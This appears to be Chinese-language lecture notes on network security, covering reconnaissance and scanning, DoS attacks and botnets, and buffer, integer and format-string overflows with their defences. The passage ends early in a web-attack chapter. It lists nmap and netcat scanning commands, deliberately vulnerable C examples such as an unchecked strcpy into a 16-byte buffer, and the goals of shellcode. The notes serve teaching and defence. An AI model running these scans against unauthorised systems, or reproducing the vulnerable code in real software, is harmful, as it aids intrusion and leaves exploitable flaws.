# **第一章 概述**
## 对网络安全的初步认识
#### “网络安全”的本质
```tex
在有敌手模型下保护网络化信息系统
安全之道是要找出一系列的“单项函数”，使得易守难攻
归根结底：人与人之间的技术博弈
```

#### “网络安全”领域的主宰
黑客（hacker），而非骇客（ cracker）


# **第二章 信息收集**

## 网络嗅探与协议分析
#### 链路层网络分类
```tex
以太网嗅探
WiFi嗅探
一些工具：
wireshark
Sniffer Pro
```

#### 交换式网络中的嗅探攻击
```tex
MAC地址泛洪攻击
MAC欺骗
ARP欺骗
```

#### 802.11（WiFi）网络中的嗅探
#### 网络嗅探技术的具体实现机理
```tex
理论基础
	以太网、WiFi网络所使用的共享传输介质
标准网络协议栈实现
	控制网卡驱动只获取发往本机地址的数据包
网络嗅探技术的实现
	类Unix平台：BFP/libpcap
	Windows平台：NPF/Winpcap
网络嗅探软件工具
	类Unix平台网络嗅探器软件
		Libpcap抓包开发函数库
		Tcpdump以及wireshark*嗅探器软件
		Snort、dsniff、sniffit和linux_sniffer…
	Windows平台网络嗅探器软件
		NPF/winpcap/windump
		SnifferPro
		Buttsniffer、NetMon、Network 
		Associates Sniffer
```

#### 网络嗅探的检测技术
```tex
网卡和操作系统对于是否处于混杂模式会有一些不同的行为，
利用这些特征可以判断一个机器是否运行在混杂模式下
一些检测手段
	根据操作系统的特征
		Linux内核的特性：正常情况下，只处理本机MAC地址或者以太广播地址的包。在混杂模式下，许多版本的Linux内核只检查数据包中的IP地址以确定是否送到IP堆栈。因此，可以构造无效以太地址而IP地址有效的ICMP ECHO请求，看机器是否返回应答包(混杂模式)，或忽略(非混杂模式)。
		Windows 9x/NT：在混杂模式下，检查一个包是否为以太广播包时，只看MAC地址前八位是否为0xff。
	根据网络和主机的性能
	根据响应时间：向本地网络发送大量的伪造数据包，然后，看目标主机的响应时间，首先要测得一个响应时间基准和平均值
```

#### 网络嗅探技术的防范措施
```tex
采用安全的网络拓扑
	共享式网络→交换式网络
	交换机上设置VLAN等技术手段，对网络进行合理的分段
共享式以太网→交换式以太网拓扑
	性能提升: 广播冲突域→每台主机单独冲突域
	安全性提升: 较难被网络监听
	交换式网络提供安全性仍可能被挫败: ARP欺骗
静态ARP或者MAC-端口映射表代替动态机制
重视网络数据传输的集中位置点的安全防范
避免使用明文传输口令/敏感信息网络协议, 使用加密协议
	telnet → ssh
	IPSEC/TLS
```

#### DNS服务：从DNS到IP的映射
查询工具：nslookup/dig
#### IP2Location——地理信息查询
#### 网络侦察
Traceroute——路由跟踪
Ping：背后是ICMP协议，可以通过设置TTL的值实现对IP的精准探测

## 网络扫描技术
#### 主机扫描（ping扫描）
```tex
扫描目的：检查目标主机是否活跃（active）
扫描方式：
    传统ICMP Ping扫描
    ACK Ping扫描
    UDP Ping扫描：到关闭端口（会返回一个目标不可达的包）
扫描程序：
	Ping
	Nmap：-sP选项，缺省执行，集合了ICMP/ACK/SYN/UDP Ping功能
```

#### Ping扫射
```tex
Ping扫射：同时扫描大量的IP地址段，以发现某个IP地址是否绑定活跃主机的扫描
Ping扫射工具软件：
	UNIX: Nmap, fping, hping2
	Win32：Superscan
```

#### 主机扫描防范措施
```tex
单一主机Ping扫描很常见，危害性也不大，更关注Ping扫射
监测：网络入侵检测系统Snort；主机扫描监测工具Scanlogd
防御：仔细考虑对ICMP通信的过滤策略
```

## 端口扫描技术
#### TCP连接扫描、SYN扫描
```tex
TCP连接扫描
    调用connect() socket函数连接目标端口
    开放端口：完成完整的TCP三次握手(SYN, SYN|ACK, ACK)，timeout/RST
    关闭端口：SYN, RST
    优势&弱势：无需特权用户权限可发起，目标主机记录大量连接和错误信息，容易检测
SYN扫描
    半开扫描(half-open scanning)
    开放端口：攻击者SYN, 目标主机SYN|ACK, 攻击者立即反馈RST包关闭连接
    关闭端口：攻击者SYN, 目标主机RST
    优势&弱势：目标主机不会记录未建立连接，较为隐蔽，需根用户权限构建定制SYN包
```

#### 隐蔽端口扫描
```tex
隐蔽端口扫描方式：
    TCP连接扫描和SYN扫描并不隐蔽：防火墙会监控发往受限端口的SYN包
    隐蔽端口扫描通过构造特殊的TCP标志位，以躲避检测，同时达成端口扫描目的。
    FIN扫描(只带FIN位), Null扫描(全为0), XMAS扫描(FIN/URG/PUSH置为1)
    FTP弹射扫描：利用FTP代理选项（PORT命令）达到隐蔽源地址
如何达成扫描目的：
    开放端口：标准TCP协议规范，接受这些伪造TCP包，丢弃，无任何反馈
    关闭端口：反馈RST包
    Windows/Cisco等系统没有遵从规范，开放端口对于伪造TCP包也反馈RST，这三种方法不适用
```

#### UDP端口扫描
```tex
UDP端口扫描
    对目标端口发送特殊定制的UDP数据报文
    开放端口: UDP反馈
    关闭端口: ICMP port unreachable报文
UDP端口扫描工具
    UNIX: udp_scan, nmap -sU, nc -u -v -z -w2 HOST PORT_LIST
    Win32: WUPS, ScanLine
```

#### 扫面软件：Nmap
```tex
Nmap命令行选项
    nmap -sT: TCP Connect()扫描
    nmap -sS: TCP SYN扫描
    nmap -sF: FIN端口扫描
    nmap -sN: NULL端口扫描
    nmap -sA: ACK端口扫描
    nmap -sX: 圣诞树端口扫描
    nmap -sU: UDP端口扫描
```

#### 端口扫描防范措施
```tex
任何攻击技术都是双刃剑
	网络管理员也可利用端口扫描确定开放必要服务
端口扫描的监测
    网络入侵检测系统: Snort中的portscan检测插件
	系统扫描检测工具: scanlogd, PortSentry, Genius
端口扫描的预防
	开启防火墙
		类UNIX: netfilter/IPTables, Win32: Windows防火墙
	禁用所有不必要的服务,尽可能减少暴露面(进一步的受攻击面)
		类UNIX: /etc/inetd.conf， Win32: 控制面板/服务
```

## 操作系统类型探查
```tex
辨识方式
	主动－操作系统主动探测技术
	被动－被动操作系统识别技术
```

#### 操作系统主动探测
```tex
操作系统主动探测技术
    端口扫描
    应用服务旗标攫取
    主动协议栈指纹鉴别
主动协议栈指纹鉴别
    Fyodor, Phrack, Remote OS detection via TCP/IP Stack Finger-Printing, 1998.
    鉴别项：FIN, BOGUS flag, ISN采样, DF位, TCP初始窗口大小, ACK值, ICMP出错消息抑制, ICMP消息引用, ICMP出错消息回射完整性, TOS,重叠分片处理, TCP选项
    nmap -O选项, qeuso, Xprobe
```

#### 被动操作系统识别
```tex
被动操作系统识别技术
    流量监听(开放端口): tcpdump, …
    被动应用服务识别: PADS
    被动协议栈指纹鉴别: siphon, p0f
被动协议栈指纹鉴别
    Lance Spitzner, Passive fingerprinting
    四个常用特征: TTL, Window Size, DF, TOS
    P0f v2: p0f.fp, 
        wwww:ttt:D:ss:OOO...:QQ:OS:Details
        WWS:TTL:DF:Syn pkt size:option,order,…quirks
        OS genre, OS description
```

#### 网络服务类型探查
```tex
网络服务类型探查
    确定目标网络中开放端口上绑定的网络应用服务类型和版本
    了解目标系统更丰富信息, 可支持进一步的操作系统辨识和漏洞识别
网络服务主动探测
    网络服务旗标抓取和探测: nmap -sV
网络服务被动识别
    网络服务特征匹配和识别: PADS
```

#### 系统类型探查防范措施
```tex
并没有太多好办法
检测
    端口扫描监测工具
    对被动式静默监听并辨识系统类型行为则基本无能为力
挫败系统类型探查活动的防御机制也很难
“不出声就不会被发现”这一古老格言并不适用于网络攻防领域
应立足于
	即使攻击者探查出了操作系统和网络服务类型，也不能轻易地攻破这道“坚固的防线”
```

#### 漏洞扫描
```tex
漏洞
    Security Vulnerability，安全脆弱性
    一般认为，漏洞是指硬件、软件或策略上存在的安全缺陷，从而使得攻击者能够在未授权的情况下访问、控制系统。
漏洞扫描
	检查系统是否存在已公布安全漏洞，从而易于遭受网络攻击的技术。
系统设计缺陷
    Internet从设计时就缺乏安全的总体架构和设计
    TCP/IP中的三阶段握手
软件实现的缺陷
    微软开发人员的单体测试缺陷从超过25个缺陷/千行代码显著降低到7个缺陷/千行代码
漏洞扫描技术
    检查系统是否存在已公布安全漏洞，从而易于遭受网络攻击的技术。
    双刃剑
        网络管理员用来检查系统安全性，渗透测试团队(Red Team)用于安全评估。
        攻击者用来列出最可能成功的攻击方法，提高攻击效率。
已发布安全漏洞数据库
    业界标准漏洞命名库CVE http://cve.mitre.org
    微软安全漏洞公告MSxx-xxx
    http://www.microsoft.com/china/technet/security/current.mspx
    SecurityFocus BID
    http://www.securityfocus.com/bid
    National Vulnerability Database: NVD
    http://nvd.nist.gov/
```

#### 漏洞扫描软件：Nessus *使用前要更新
```tex
客户端/服务器模式
    服务器端: nessesd (Tcp 1241)
    客户端: nessus -q (命令行客户端), nessus(UNIX图形客户端), Nessus Client(Win32客户端)
框架/插件模式
    NASL语言(Nessus Attack Scripting Language)
    安全漏洞扫描插件: 使用NASL语言容易编写并集成至
    Nessus框架中插件间可互相依赖和协同工作(端口探测－漏洞扫描插件)
多种报告方式:
    文本/LaTeX/HTML/DHTML/XML/SQL等
```

#### 漏洞扫描防范措施
```tex
最简单对策：
    假设黑客会使用漏洞扫描来发现目标网络弱点，那你必须在黑客之前扫描漏洞
    补丁自动更新和分发: 修补漏洞
联邦桌面核心配置计划(FDCC)
    确保桌面计算机的安全漏洞及补丁自动管理
    中国2010年开始政务终端安全配置(CGDCC)标准的发展
检测和防御漏洞扫描行为
    网络入侵检测系统: Snort
    仔细审查防火墙配置规则
```

## 网络查点(enumeration)技术
```tex
网络查点技术
    继网络踩点、扫描之后一项网络情报信息搜集技术
    网络查点：针对已知的弱点，对识别出来的服务进行更加充分更具针对性的探查，来寻找真正可以攻击的入口，以及攻击过程中可能需要的关键数据

与网络踩点、扫描的区别
    与网络踩点技术的关键区别：攻击者的入侵程度
    与网络扫描技术的关键区别：攻击者的针对性与信息搜集的目标性
    
网络查点能够搜集到的信息
    看起来好像是无害的
        用户帐户名
        错误配置的共享资源
        网络服务版本号
    但一旦这些信息被细心的高水平攻击者所掌握，就可能成为危害目标系统安全的祸根
        用户帐户名：口令猜测破解
        错误配置的共享资源：恶意程序上传
        老旧的网络服务版本：缓冲区溢出漏洞攻击
```


# **第三章 拒绝服务攻击**
## 拒绝服务攻击DoS概念
```tex
DoS的英文全称是Denial of Service即“拒绝服务”的意思。 

DoS攻击是指利用网络协议漏洞或其他系统以及应用软件的漏洞耗尽被攻击目标资源，使得被攻击的计算机或网络无法正常提供服务，直至系统停止响应甚至崩溃的攻击方式。即攻击者通过某种手段，导致目标机器或网络停止向合法用户提供正常的服务或资源访问。
```

## DoS原理及分类
```tex
DoS原理
攻击者向服务器发送众多的带有虚假地址的请求，服务器发送回复信息后等待回传信息。
由于地址是伪造的，所以服务器一直等不到回传的消息，分配给这次请求的资源就始终没有被释放。
当服务器等待一定的时间后，连接会因超时而被切断，攻击者会再度传送新的一批请求，在这种反复发送伪地址请求的情况下，服务器资源最终会被耗尽。

DoS的基本模式：
1.资源耗尽型
	①消耗网络带宽。
		攻击者有意制造大量的数据报或传输大量文件以占用有限的网络带宽，致使合法用户无法正常使用网络资源。
	② 消耗磁盘空间。
        攻击者利用磁盘空间的有限性或存储空间大小控制的缺陷，短时间内制造大量的垃圾信息，使系统或用户因没有磁盘空间而停止工作。
	③ 消耗CPU和内存资源。
		操作系统需要提供CPU和内存资源给许多进程共用，攻击者利用系统中存在的缺陷，有意使用大量的CPU和内存资源，导致系统服务性能下降甚至造成系统崩溃。
2.配置修改型
	攻击者修改/删除配置文件使系统服务停止或系统服务性能降低
		改变路由信息；
		修改 Windows NT注册表；
		修改UNIX系统的各种配置文件，如/etc目录下的各种文件。
3.基于系统缺陷型
	攻击者利用目标系统和通信协议的漏洞实现拒绝服务攻击。
	例如一些系统出于安全考虑，限制用户试探口令次数和注册等待时间。当用户口令输入次数超过若干次，或注册等待时间超过某个时间值，系统就会停止该用户的使用权。攻击者利用系统这个安全特点，有意输错口令导致系统锁定该用户帐号，致使该用户得不到应有的服务。
4.物理实体破坏型
	这种拒绝服务攻击针对物理设备。攻击者通过破坏或改变网络部件实现拒绝服务攻击，其攻击的目标包括: 计算机、路由器、网络配线室、网络主干段、电源、冷却设备。

DoS攻击的基本形式
1.服务过载
	当大量的服务请求发向一台计算机中的服务守护进程时，就会发生服务过载。
	计算机忙碌地处理不断到来的服务请求，以至于无法处理常规的任务。同时，许多新到来的请求被丢弃。
	如果攻击的是一个基于TCP协议的服务，那么这些请求的包还会被重发，结果更加重了网络的负担。
2.消息流（一种经典手段：广播风暴）
	消息流发生于用户向一台网络上的目标主机发送大量的数据报，来延缓目标主机的处理速度，阻止它处理正常任务的这种情况。
	这些请求可能是请求文件服务，要求登录或者仅仅是简单的要求响应数据报。
3.信号接地
    物理方法也可以关闭一个网络。将网络的电缆接地，引入一些其他信号或者将以太网上的端接器拿走，都可以有效地阻止客户发送或者接收消息。
4.“粘住”攻击
	可以使用TCP的半连接耗尽资源。
	如果攻击者发出多个连接请求。初步建立了连接，但又没有完成其后的连接步骤，接收者便会保留许多这种半连接，占据有限的资源。
	通常这些连接请求使用的是伪造的源地址表明连接来自于一台不存在的主机或者一台无法访问的主机。
```

### DoS攻击分类
```tex
 DoS的攻击方式有很多种，最基本的DoS攻击就是利用合理的服务请求来占用过多的服务资源，从而使合法用户无法得到服务。 
    SYN Flood
    死ping(ping of death)
    泪滴(teardrop)
    Smurf攻击
    Land攻击
    分布式拒绝服务攻击
    ……
```

#### 死ping(ping of death)
```tex
	在早期版本中，许多操作系统对网络数据包的最大尺寸有限制，对TCP/IP栈的实现在ICMP包上规定为64KB。在读取包的报头后，要根据该报头里包含的信息来为有效载荷生成缓冲区。
	当发送ping请求的数据包声称自己的尺寸超过ICMP上限，也就是加载的尺寸超过64K上限时，就会使ping请求接收方出现内存分配错误，导致TCP/IP堆栈崩溃致使接受方当机。

防御：
	现在所有的标准TCP/IP实现都已实现对付超大尺寸的包，并且大多数防火墙能够自动过滤这些攻击，包括从windows98之后的windows,NT(service pack 3之后) linux, Solaris 和Mac OS都具有抵抗一般ping of death攻击的能力。
	此外对防火墙进行配置，阻断ICMP以及任何未知协议都将防止此类攻击。

```

#### 泪滴(teardrop)
```tex
	泪滴攻击利用那些在TCP/IP堆栈实现中，信任IP碎片中的包的标题头所包含的信息来实现攻击。
IP分段含有指示该分段所包含的是原包的哪一段的信息，某些TCP/IP 包括service pack 4以前的NT 在收到含有重叠偏移的伪造分段时将崩溃。
	例如一个40个字节的数据报被分为两片，第一片数据发送0~36个字节，而第二片发送24~27字节，在某些情况下会破坏整个IP协议栈，必须重新启动计算机才能恢复。

防御：
   服务器应用最新的服务包，或者在设置防火墙时对分段进行重组，而不是转发它们。
```

#### Land攻击 
```tex
特别打造一个SYN包，其源地址和目标地址都被设置成某一个服务器地址；
导致接收服务器向它自己的地址发送SYN-ACK消息，结果这个地址又发回ACK消息并创建一个空连接；
每一个这样的连接都将保留直到超时；
许多UNIX将崩溃，NT变的极其缓慢（大约持续五分钟）。
```

#### Smurf攻击
```tex
通过采用ICMP技术进行攻击。
 （a）攻击者找出网络上有哪些路由器会回应ICMP请求。
 （b）用一个虚假的IP源地址向路由器的广播地址发出讯息，路由器会把这些讯息广播到网络上所连接的每一台设备。
 （c）这些设备马上回应，同时产生大量讯息流量，从而占用所有设备的资源及网络带宽，而回应的地址就是受攻击的目标。
```

#### Fraggle攻击 
```tex
Fraggle攻击与Smurf攻击类似，但它使用的不是ICMP，而是 UDP Echo。
防范 ：在防火墙上过滤UDP应答消息
```

#### 炸弹攻击
```tex
基本原理是利用工具软件，集中在一段时间内，向目标机发送大量垃圾信息，或是发送超出系统接收范围的信息，使对方出现负载过重、网络堵塞等状况，从而造成目标的系统崩溃及拒绝服务。
常见的炸弹攻击有邮件炸弹、聊天室炸弹等。
防御：对邮件地址进行配置，自动删除来自同一主机的过量或重复的消息。
```

#### 分布式拒绝服务攻击（DDoS）
```tex
拒绝服务攻击的发展趋势：
DDoS（分布式拒绝服务），它的英文全称为Distributed Denial of Service，它是一种基于DoS的特殊形式的拒绝服务攻击，是一种分布、协作的大规模攻击方式，主要瞄准比较大的站点，如商业公司，搜索引擎和政府部门的站点。
我们可以看出DoS攻击只要一台单机和一个modem就可实现，与之不同的是DDoS攻击是利用一批受控制的机器向一台机器发起攻击，这样来势迅猛的攻击令人难以防备，因此具有较大的破坏性。


DDoS攻击分为3层：攻击者、主控端、代理端，三者在攻击中扮演着不同的角色。

攻击者：攻击者所用的计算机是攻击主控台，可以是网络上的任何一台主机，甚至可以是一个活动的便携机。攻击者操纵整个攻击过程，它向主控端发送攻击命令。 

主控端：主控端是攻击者非法侵入并控制的一些主机，这些主机还分别控制大量的代理主机。主控端主机的上面安装了特定的程序，因此它们可以接受攻击者发来的特殊指令，并且可以把这些命令发送到代理主机上。 

代理端：代理端同样也是攻击者侵入并控制的一批主机，它们上面运行攻击器程序，接受和运行主控端发来的命令。代理端主机是攻击的执行者，真正向受害者主机发送攻击。
```



上图为DDoS攻击示意图

#### 用工具软件实现DDoS攻击
```tex
攻击的流向是这样的：攻击者--master---分布端---目标主机。

从分布端向受害者目标主机发送的DDoS都是UDP报文，每一个包含4个空字符，这些报文都从一个端口发出，但随机袭击目标主机上的不同端口。目标主机对每一个报文回复一个ICMP Port Unreachable的信息，大量不同主机发来的这些洪水般的报文源源不断目标主机将很快慢下来，直至剩余带宽变为0。
```

#### 应付DDoS攻击的策略
```tex
（1）IDS的检测方法是：分析一系列的UDP报文，寻找那些针对不同目标端口，但来自于相同源端口的UDP报文。或者取10个左右的UDP报文分析那些来自于相同的源IP、相同的目标IP、相同的源端口，但不同的目标端口的报文。这样可以逐一识别攻击的来源。
（2）寻找那些相同的源地址和相同的目标地址的ICMP Port Unreachable的信息。
（3）由于DDoS攻击的主要目的是消耗主机的带宽，所以很难抵挡。
```

### 僵尸网络(Botnet) 
```tex
基本概念
Bot:
  机器人(Robot)的缩写，是一段可以自动执行预先设定功能，可以被控制，具有一定人工智能的程序。通常带有恶意代码的Bot被秘密植入受控计算机，主动连接服务器接受控制指令，并依照指令完成相应功能。
Zombie:
   被包含恶意代码的Bot感染或能被远程控制的计算机，又名僵尸计算机。
IRC Bot:
   利用IRC （Internet Relay Chat）协议进行通信和控制的Bot。 
Command & Control Server: 
    IRC Bot连接的IRC服务器称为命令和控制服务器，控制者通过该服务器发送命令，进行控制。 
Botnet:
   僵尸网络，由大量能够实现恶意功能的Bot、Command & Control Server和控制者组成，能够受攻击者控制的网络。 
```

#### IRC Bot原理
```tex
IRC （Internet Relay Chat）协议
	IRC是一种专门的网络聊天室协议。
	IRC协议采用客户端/服务器模式。
	多服务器之间可建立信息共享。
	用户可以建立、选择和感兴趣的频道。
	频道可以隐藏。
	支持文件传递。
	
IRC Bot的功能：
	Bot可以根据接收到的控制命令执行预定义的功能，这些功能包括：
	1)发动DoS攻击
	2)浏览系统信息
	3)终止信息
	4)攻击IRC频道或邮箱
	5)上传和下载程序
	6)代理或SMTP服务器
	7)升级Bot
	8)卸载Bot

IRC Bot的实现：
其特点是模拟IRC客户端，使用IRC协议与IRC服务器通信。
```

#### 如何发现僵尸网络？
```tex
IDS方法
	必须充分了解僵尸程序，提取指纹信息作为IDS检测的特征
行为监测法
	僵尸程序行为模式：快速连接控制信道、长时间在线发呆、…
蜜罐捕获法
	通过部署蜜罐对僵尸程序进行捕获——样本
	通过对网络行为进行监视和分析——僵尸网络控制信道信息

```

## DoS发展趋势
```tex
重放追踪技术升级
攻击过程日趋智能化
攻击手段日趋多样化

```


# **第四章 缓冲区溢出攻击**
## 栈溢出概念与原理
### 概念引入
#### 缓冲区
应用程序用来保存用户输入数据、程序临时数据的<font color="red">内存空间（数组、变量…）</font>
缓冲区在哪里？（变量可以定义在哪里？）
​	<font color="red">栈</font>：局部变量或数组
​	<font color="red">堆</font>：动态内存申请，如malloc
​	数据段：全局变量或static局部变量

#### 缓冲区溢出
用户输入的数据<font color="red">超过缓冲区</font>能保存的<font color="red">最大数据量</font>，<font color="red">多余数据</font>会<font color="red">覆盖</font>掉程序的其他内存空间
如果用户输入的<font color="red">数据</font>恰好能被<font color="red">当做代码并被执行</font>，利用这种漏洞可以执行任意代码。

### 执行流控制
#### 如何控制程序的执行流
使程序跳转到攻击者输入数据（代码）处执行：
​	jmp：跳转，包含条件跳转
​	call：函数调用
​	ret：调用返回
ret指令更适合跳转到攻击者给定的内存去执行

#### x86（ 32位汇编）汇编
通用寄存器扩展为32位（ 4字节）
ax bx cx dx → eax ebx ecx edx
sp bp si di → esp ebp esi edi
栈默认操作数由16位变为32位（ 4字节）
	esp指向栈顶
	pop eax执行后，esp = 原esp+4
小端字节序
“倒读”：高位在高地址：78 56 34 12 → 0x12345678

#### ret控制程序的执行流
ret的作用： 相当于POP EIP
​	将返回地址从栈顶弹出
​	弹出的返回地址放入EIP
实例调试证明ret效果
	可使用_asm内联汇编语法
```c
int main() {
	_asm ret
	return 0;
}
```

#### 如何控制程序的执行流
正常程序中，不可能这样直接通过调试器修改内存
strcpy的原理
```c
strcpy(char * des, char * src) {
    char *_src = src;
    char *_dst = dst;
    while (*_src != 0) {
        *_des = *_src;
        _src++; _des++;
    };
    *des = 0;
}
```

strcpy函数实现中没有也无法判定目标地址指向的内存是否有足够的空间存放被复制的内容。
修改栈上保存的返回地址
```c
void func1(char *input) {
	char buffer[16];
	strcpy(buffer， input);
}
```

如果src的字符串长度大于buf， strcpy并不会在16处停止复制，而是会继续往后复制。
<font color="red">那这时拷贝的内容就会依次覆盖后边的内容</font>

假设： ret地址在buf后 
 在src中构造好合适的数据，使得buf之后的部分正好覆盖掉ret地址
通过函数调用原理来证实：
```c
void func1(char* src){
    char buf[16];
    strcpy(buf,src);
}

int main(){
    char* src = "Hello world!";
    func1(src);
    return 0;
}
```

### 函数调用原理
```c
void func1(char* src){
    char buf[16];
    strcpy(buf,src);
}
```

strcpy拷贝也是从低地址到高地址的拷贝顺序
<font color="red">strcpy多余拷贝的部分将依次覆盖保存ebp, 返回地址的内存空间</font>


### 栈溢出的原理
返回地址覆盖原理

```c
void func1(char* src){
    char buf[16];
    strcpy(buf,src);
}
```

strcpy多余拷贝的部分将依次覆盖保存ebp, 返回地址的内存空间
当调用strcpy的函数返回时，程序就会跳转到覆盖后指向的那个地址

函数调用原理：
​	call时返回地址压入栈中
​	ret时从栈上弹出返回地址
溢出原理：
​	局部变量在栈中，位于返回地址上方
​	向局部缓冲区拷贝时，多余部分将向后覆盖返回地址



## 其他溢出
### 堆溢出
堆和栈有何区别
​	内存的动态分配与静态分配
堆溢出特点
​	缓冲区在堆中分配
​	拷贝的数据过长
​	覆盖了堆管理结构
```c
#define BUFLEN 32
int main(int argc, char* argv[ ])
{
    char *buf1;
    buf1 = (char*)malloc(BUFLEN);
    strcpy(buf1,argv[1]);
    printf("%s\n",buf1);
    free(buf1);
    return 0;
}
```

### 整型溢出
#### 整型的存储
​	定长存储
​	x86：小端字节序
​		“倒读”：高位在高地址

#### 什么是整型溢出
定长存储的整型数有一个可以表示的最大值。
试图写入超过其最大值的数，就会发生整数溢出
大多数编译器都会忽略这种溢出，导致最终数据产生取模运算
```c
int a = 0x7FFFFFFF;
printf("%d, %d, %d\n", a, a+1, a*2);
```



#### 为什么整型溢出很危险
溢出行为不可预知，程序是没有办法区分先前计算出的值是否正确。
如果计算结果作为一个缓冲区的大小或数组的下标时将会非常危险。
```c
unsigned short c = 0xFFFF;
unsigned short d = c * 0xFFF1;
printf("%u, %u\n", c, d);
```



相较于其他溢出，大多数整数溢出无法利用的。因为我们无法直接改写内存单元。
但有时整数溢出将会导致其它类型的缺陷，比如很容易发生的缓冲区溢出。
整数溢出有时是很难发现的，也正因为如此，即使经过仔细审查的代码有时候也不可避免。
```c
void func(short size) {
    int* p = malloc(size * 2);
    // size = 0x8000
    // size * 2 = 0x0000
}
```

#### 整型溢出分类
宽度溢出（Widthness Overflow）
	尝试存储一个超过变量表示范围的大数到变量中
运算溢出（Arithmetic Overflow）
	如果存储值是一个运算操作，稍后使用这个结果的程序的任何一部分都将错误的运行，因为这个计算结果是不正确的。
符号溢出（Signedness Bug）
	一个无符号的变量被看作有符号，或者一个有符号的变量被看作无符号
```c
int main()
{
    int a = 0x0079786c;
    short c = a;
    char d = a;
    char* e = (char*)&a;
    printf("%x,%x,%s", c, d, e);
    return 0;
}
```

成因：内存中的数据 6c 78 79 00
截断后： c = 0x786c， d = 0x6c
解析ASCII码构成字符串： lxy
```c
void func(short size) {
    int* p = malloc(size * 2);
    // size = 0x8000
    // size * 2 = 0x0000
}
```

当传入size = 0x8000， malloc所需分配的内存大小变为0

### 格式化字符串溢出
有哪些格式化函数？
```tex
fprintf：将格式化的数据打印至文件；
printf：将格式化的数据打印至标准输出stdout；
sprintf：将格式化的数据存储到缓冲区中；
snprintf：将指定长度的格式化数据存储到缓冲区中；
vfprintf：将va_arg结构中的格式化数据打印到文件；
vprintf：将va_arg结构中的格式化数据打印到标准输出stdout；
vsprintf：将va_arg结构中的格式化数据存储到缓冲区中；
vsnprintf：将va_arg结构中指定长度的格式化数据存储到缓冲区中；
```

参数format的输出格式
```tex
%c 单字符格式
%d 十进制整型 (pre ANSI)
%e,%E 指数形式的 float or double
%f 十进制 float or double
%I 整型 (like %d)
%o 八进制整型
%p 地址指针
%s 字符串
%x,%X 十六进制整型

%n用于把前面打印的字符数记录到一个变量中，也用于统计格式化的字节数。这当然需要一个空间来存储这个数字，因此程序需要为此分配内存。
```

格式化字符串函数的主要功能为：
1. 将某些C类型的数据转换为字符串类型进行打印
2. 根据参数format提供的控制信息，将其后的参数转换为某种输出格式
3. 输出到不同的目标
```tex
比如要显示整型的变量“dVal”的值，就可以使用下面的格式化字符：
printf(“The value is %d”,dVal);
如果程序员想用十六进制显示同样值：
printf(“The value in decimal is %d and in hexadecimal is x%”,dVal,dVal);
```

### 其他溢出
Data Section溢出
	程序数据段溢出
PEB/TEB溢出
	覆盖了Windows中PEB/TEB结构导致基础
文件流溢出
	伪造在堆上的FILE结构体，覆盖结构体上的函数指针达到控制执行流的目的

### 溢出的共性
大object向小object复制数据（字符串或整型），容纳不下造成溢出
溢出会覆盖一些关键性数据（返回地址、管理数据、异常处理或文件指针等）
利用程序的后续流程，得到程序的控制权

### Shellcode
#### ShellCode的定义
Shellcode实际是一段机器码，是用来在程序发生溢出后，程序将要执行的代码
Shellcode的作用就是实现漏洞利用者想要达到的目的，一般我们看到的Shellcode都是用来安装木马或者提升权限的

#### Shellcode的功能
基本功能：
​	添加administrator or root组用户
​	远程可用shell
​	下载程序（Trojan or Rootkit）执行
高级功能：
​	抗NIDS检测
​	穿透防火墙

## 溢出防护
### 人—代码作者
编写正确的代码
方法
	学习安全编程
	软件质量控制
	源码级纠错工具

### 编译器
数组边界检查
编译时加入条件，如canary保护
	在进入函数时根据一定算法计算出一个Canary值
	在局部缓冲区与返回地址之间插入内存空间存储Canary值
	函数执行…
	在执行ret指令之前，再次按相同算法计算一次Canaray
	将计算的值与存储的值比较，不相等则直接抛异常



### 语言
为什么会出现缓冲区溢出？
	C/C++出于效率的考虑，不检查数组的边界（语言固有缺陷）
类型非安全语言→类型安全语言
C， C++→C#， Java？

### RunTime保护
二进制地址重写
Hook危险函数技术



### 操作系统
非执行缓冲区
	缓冲区是存放数据地方，我们可以在硬件或操作系统层次上强制缓冲区的内容不得执行
	许多内核补丁用来阻止缓冲区执行
堆栈不可执行内核补丁
	Solar designer’s nonexec kernel patch
	Solaris/SPARC nonexec-stack protection
数据段不可执行内核补丁
	kNoX： Linux内核补丁，仅支持2.2内核。
	RSX： Linux内核模块。
	Exec shield
增强的缓冲区溢出保护及内核MAC
	OpenBSD security feature
	PaX

### 硬件
X86 CPU上采用4GB平坦模式，数据段和代码段的线性地址是重叠的，页面只要可读就可以执行，
诸多内核补丁才会费尽心机设计了各种方法来使数据段不可执行.
Alpha、 PPC、 PA-RISC、 SPARC、 SPARC64、AMD64、 IA64都提供了页执行bit位。 Intel及AMD新增加的页执行bit位称为NX安全技术.
Windows XP SP2及Linux Kernel 2.6都支持NX

## 安全编程
### 设计安全的系统
赖以生存的安全策略
```tex
建立一个安全步骤
定义产品的安全目标
将安全看作产品的一个功能
从错误中吸取教训
使用最小权限
使用纵深防御
假设外部系统是不安全的
做好失效计划
使用安全的默认值
```

威胁模型
```tex
STRIDE威胁模型
	欺骗标识 Spoofing identity
	篡改数据 Tampering with data
	拒绝履约 Repudiation
	信息泄露 Information disclosure
	拒绝服务 Denial of service
	特权提升 Elevation of privilege
```

### 代码的规范和风格
基本编程规范
```tex
成对编码原则
变量定义的规范
代码对齐、分块、换行的规范
注释的规范
```

### 危险的函数
```tex
strcpy\wcscpy\lstrcpy\_tcscpy\_mbscpy
strcat\wcscat\lstrcat\_tcscat\_mbscat
strncpy……
memcpy……
printf\sprintf……
gets
scanf
```


# **第五章 Web应用程序攻击与防御**
## 传输协议: HTTP/HTTPS
```tex
HTTP
	HTTP 1.0 (IETF RFC 1945), HTTP 1.1 (RFC 2616)
	缺省TCP 80端口
	无状态、基于ASCII码
	明文传递的简单协议
	请求/响应模式: 请求资源标识符(URI)
	无状态性、明文性、简单性、流行性→易受攻击

状态管理－Cookies 保持连接状态

身份认证－基础认证等多种认证协议

HTTPS
	基于SSL/TLS: 提供对传输层认证(AH)和加密(ESP)
	HTTPS: HTTP over TLS, 缺省TCP 443端口
```

## Web应用安全攻防技术概述
```tex
Web应用攻击路线图
	Web应用信息收集（踩点、搜点与查点）
		手工审查
		自动下载/镜像站点
		Google Hacking的应用

	Web应用攻击
		漏洞探测
		攻击Web服务器软件
		攻击Web应用程序
		攻击Web数据内容

	本地攻击
```

### Web应用的信息收集
```tex
针对目标Web应用服务的信息收集
	服务器域名、IP地址、内网虚拟IP地址
	Web服务器端口、其他开放服务
	Web服务器类型与版本
	Web应用程序类型与版本
	Web服务器／Web应用程序中存在的安全漏洞

回顾：网络信息收集技术
	Whois／DNS查询、Web搜索、端口扫描：发现目标Web站点
